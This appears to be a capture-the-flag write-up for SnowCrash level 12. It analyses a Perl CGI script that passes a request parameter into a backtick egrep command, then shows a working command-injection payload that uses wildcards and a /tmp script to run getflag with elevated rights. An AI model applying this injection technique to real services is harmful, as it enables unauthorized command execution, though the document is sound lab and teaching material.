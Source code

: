 # Level12

## Research

```bash
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
level12@SnowCrash:~$ ./level12.pl
Content-type: text/html

..level12@SnowCrash:~$
```
Study `level12.pl`:
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

# A Perl subroutine or function is a group of statements that together performs a task. 
sub t {
  # y 
  $nn = $_[1];
  # x 
  $xx = $_[0];
# The operator =~ associates the string with the regex match and produces a 
# true value if the regex matched, or false if the regex did not match
# The tr operator in Perl translates all characters of 
# SearchList into the corresponding characters of ReplacementList.
# Syntax: tr/SearchList/ReplacementList/
# Do uppercase on x !
  $xx =~ tr/a-z/A-Z/;
# Substitution Operator or ‘s’ operator in Perl is used to substitute 
# a text of the string with some pattern specified by the user.
# Syntax: s/text/pattern
# \s Do a global search for whitespace characters in a string
# .* just means "0 or more of any character"
# remove all whitespaces !
  $xx =~ s/\s.*//;
# Variables of Array Datatype are preceded by an “at” (@) sign.
# egrep command searches for a text pattern, using extended regular expressions 
# standard error (stderr), to where programs can send their error messages.
# Standard output (stdout) can be screen or file depending on redirection
# 2>&1 redirect stderr to whatever value is set to stdout
# output (array) saves what is return on the stdout by the egrep command
# The threat must be here as all others line seems safe
# `` is for running command !
# grep " " run command inside !
# however getflag will become GETFLAG and won't work...
# ^ to find character missing in the string
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
# $_ = default variable in case no parameter is explicitly used
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

What we can understand:
- `level12.pl` uses `CGI` on `localhost:4646`
- It seems to take 2 arguments
- Argument x will be put in uppercase and will be executed thanks to the \`\` quotes 
- Argument y seems to serve no purpose for us

We saw in a previous level that we can pass parameters to CGI. So let's try to pass `getflag`.

Problem: if we pass just `getflag`, the regex will turn it into GETFLAG and the command won't be run properly. We need to find a way of passing a command without it being transformed in uppercase. </br>
Maybe we can run a script instead of a command and using wildcards will prevent the regex to turn `/tmp/` into `/TMP/` wich doesn't exist.

```bash
level12@SnowCrash:~$ echo 'getflag' > /tmp/GETFLAG
level12@SnowCrash:~$ touch /tmp/CC
level12@SnowCrash:~$ chmod 777 /tmp/GETFLAG
level12@SnowCrash:~$ curl localhost:4646/?x="`/*/GETFLAG>/*/CC`"
..level12@SnowCrash:~$ cat /tmp/CC
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```
This does not work, it launch getflag without the appropriate rights.

1h30 later with lot of different useless tries...</br>
It was not the good quotes, and why not do the > part into the script.</br>
https://stackoverflow.com/questions/6697753/difference-between-single-and-double-quotes-in-bash </br>
https://www.howtogeek.com/howto/29980/whats-the-difference-between-single-and-double-quotes-in-the-bash-shell/

## Solution

```
level12@SnowCrash:~$ cat /tmp/GETFLAG
#!/bin/bash
getflag > /tmp/flag
level12@SnowCrash:~$ touch /tmp/flag
level12@SnowCrash:~$ chmod 777 /tmp/GETFLAG
level12@SnowCrash:~$ curl localhost:4646?x='`/*/GETFLAG`'
..level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXXXX
```
Gives us the flag.
